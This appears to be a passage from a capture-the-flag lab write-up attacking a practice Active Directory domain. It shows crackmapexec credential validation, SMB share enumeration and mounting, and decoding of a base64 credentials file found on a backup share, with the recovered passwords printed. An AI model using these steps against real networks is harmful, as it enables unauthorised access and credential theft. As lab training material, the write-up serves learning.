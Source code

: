 -----

#### Validation of credentials user svc-admin

```
❯ crackmapexec smb spookysec.local -u "svc-admin" -p "management2005"
SMB         10.10.28.119    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.28.119    445    ATTACKTIVEDIREC  [+] spookysec.local\svc-admin:management2005
```

#### Shares for user svc-admin

```
❯ smbclient -L \\10.10.28.119 -U "svc-admin%management2005"

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
```

##### SMB mount

```
❯ sudo mkdir /mnt/samba
[sudo] password for noroot:
❯ sudo mount -t cifs //10.10.28.119/backup /mnt/samba -o username=svc-admin,password=management2005,rw
❯ ls -l /mnt/samba
.rwxr-xr-x root root 48 B Sat Apr  4 14:08:53 2020  backup_credentials.txt
```

We found another user

```
❯ cat /mnt/samba/backup_credentials.txt
───────┬────────────────────────────────────────────────────────────────────
       │ File: /mnt/samba/backup_credentials.txt
───────┼────────────────────────────────────────────────────────────────────
   1   │ YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
───────┴────────────────────────────────────────────────────────────────────

❯ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw"|base64 -d; echo
backup@spookysec.local:backup2517860
```

#### Validation of credentials user backup

```
❯ crackmapexec smb spookysec.local -u "backup" -p "backup2517860"
SMB         10.10.28.119    445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.28.119    445    ATTACKTIVEDIREC  [+] spookysec.local\backup:backup2517860
```
